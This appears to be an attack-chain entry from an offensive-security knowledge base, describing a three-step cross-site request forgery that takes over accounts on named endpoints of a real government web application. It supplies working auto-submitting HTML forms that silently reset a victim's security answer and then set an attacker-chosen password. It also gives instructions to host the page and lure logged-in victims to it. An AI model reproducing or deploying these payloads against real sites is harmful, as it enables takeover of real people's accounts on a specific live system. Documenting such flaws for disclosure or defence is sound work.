

---
tags:
  - csrf
  - account-takeover
  - okta
  - web
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/CSRF-Update-Secret-Answer]]'
  - '[[procedures/Wait-for-Secret-Answer-Propagation]]'
  - '[[procedures/CSRF-Change-Password-Using-New-Answer]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:33:12.429Z'
description: >-
  A multistage CSRF attack exploiting missing token validation on security
  question and password change endpoints to achieve full account takeover.
skill_level: intermediate
impact_level: high
id: 526bbed7-4972-4bff-83bc-4841fc4edd80
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Multistage CSRF for Account Takeover via Security Question Update and Password Change

Multi-stage attack chain demonstrating a complete workflow for account takeover using chained CSRF vulnerabilities on Okta-integrated endpoints, allowing unauthorized changes to security questions and passwords without user interaction.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses browser and HTML file for PoC)

### Target Environment

- Web platform with Okta authentication
- Endpoints: https://autochoice.fas.gsa.gov/AutoChoice/changeQAOktaAnswer and https://autochoice.fas.gsa.gov/AutoChoice/changePwOktaAnswer
- No CSRF token validation on POST requests

### Initial Access Requirements

- Victim must be authenticated in the browser (e.g., logged into the target site)
- Attacker must trick victim into visiting a malicious HTML page (e.g., via phishing or malicious link)
- No prior credentials needed for attacker

## Detailed Attack Procedures

### Step 1: Update Secret Answer via CSRF
procedure: [[procedures/CSRF-Update-Secret-Answer]]

**Objective**: Forge a request to change the victim's security question and answer without authentication or CSRF token, setting a known new answer for later use.

**Instructions**: Create and host a malicious HTML file that auto-submits a POST form to the changeQAOktaAnswer endpoint with the desired new question and answer. Ensure the victim loads this page while authenticated to the target site.

Example HTML snippet for auto-submission:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf1" action="https://autochoice.fas.gsa.gov/AutoChoice/changeQAOktaAnswer" method="POST">
  <input type="hidden" name="question" value="What is your favorite color?">
  <input type="hidden" name="answer" value="red">
</form>
<script>document.getElementById('csrf1').submit();</script>
</body>
</html>
```

Host this on a server (e.g., via GitHub Pages or local server) and send the link to the victim.

**Expected Output**: The server responds with a success message or redirect, indicating the update occurred (visible in browser network tab).

**Success Indicators**:
- Network request to changeQAOktaAnswer completes with 200 OK or redirect
- No errors in response indicating token validation failure

### Step 2: Wait for Secret Answer Propagation
procedure: [[procedures/Wait-for-Secret-Answer-Propagation]]

**Objective**: Ensure the updated secret answer is active in the backend before proceeding to password change, preventing failures due to timing issues.

**Instructions**: In the malicious HTML, introduce a JavaScript timeout after the first form submission to delay the second request. This allows server-side propagation of the change.

Example addition to HTML:

```html
<script>
document.getElementById('csrf1').submit();
setTimeout(function() {
  document.getElementById('csrf2').submit();
}, 2000); // 2-second delay
</script>
```

Adjust the timeout based on observed server latency (test empirically).

**Expected Output**: No visible output; the delay ensures the next step succeeds without retry logic.

**Success Indicators**:
- Subsequent password change request succeeds without answer mismatch errors
- Backend logs (if accessible) show the update timestamp before the next request

### Step 3: Change Password Using New Secret Answer via CSRF
procedure: [[procedures/CSRF-Change-Password-Using-New-Answer]]

**Objective**: Use the newly set secret answer to forge a password change request, resulting in full control over the victim's account.

**Instructions**: Extend the HTML PoC with a second form that posts to the changePwOktaAnswer endpoint, providing the new secret answer and desired password. Trigger after the delay from Step 2.

Example HTML for second form:

```html
<form id="csrf2" action="https://autochoice.fas.gsa.gov/AutoChoice/changePwOktaAnswer" method="POST">
  <input type="hidden" name="answer" value="red">
  <input type="hidden" name="newPassword" value="attacker_password123">
  <input type="hidden" name="confirmPassword" value="attacker_password123">
</form>
```

Combine with the first form and timeout script for a single-page PoC.

**Expected Output**: Server confirms password change (e.g., redirect to login or success page).

**Success Indicators**:
- Victim's account password is updated; attacker can log in with new credentials
- No validation errors for the secret answer in the response

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections to update security credentials without user interaction
2. Chained updates to achieve persistent account control
3. Demonstrated high-impact takeover on Okta-integrated government system

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
